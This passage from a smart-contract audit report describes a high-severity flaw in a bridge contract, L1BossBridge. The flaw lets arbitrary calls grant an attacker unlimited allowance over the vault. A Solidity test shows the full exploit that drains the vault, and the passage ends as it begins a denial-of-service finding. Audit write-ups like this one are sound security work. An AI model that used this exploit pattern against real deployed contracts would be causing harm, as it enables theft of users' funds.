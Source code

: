 


### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo`, giving themselves infinite allowance of vault funds.


**Description:** The `L1BossBridge` contract includes the `sendToL1`function, which can be called with a valid signature by an operator to execute arbitrary low-level calls to any given target. Since there are no restrictions on the target or the calldata, this call can be exploited by an attacker to execute sensitive contracts associated with the bridge, such as the `L1Vault` contract.The `L1BossBridge` contract owns the `L1Vault` contract.  

**Impact:** Consequently, an attacker could submit a call targeting the vault to execute its `approveTo` function, passing an attacker-controlled address to increase its allowance. This would enable the attacker to completely drain the vault.

**Proof of Concept:**
Include the following test in the `L1BossBridge.t.sol` file:




```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    bytes memory message = abi.encode(
        address(vault), 
        0, 
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max))
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```


Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.



### [H-5] Malicious user can DoS attack on `L1BossBridge::depositTokensToL2` 

**Description:**  The `L1BossBridge::depositTokensToL2` has a deposit limit that limits the amount of funds a user can deposit into the bridge. A malicious user makes a donation to the contract inorder to make the deposit limit reached.
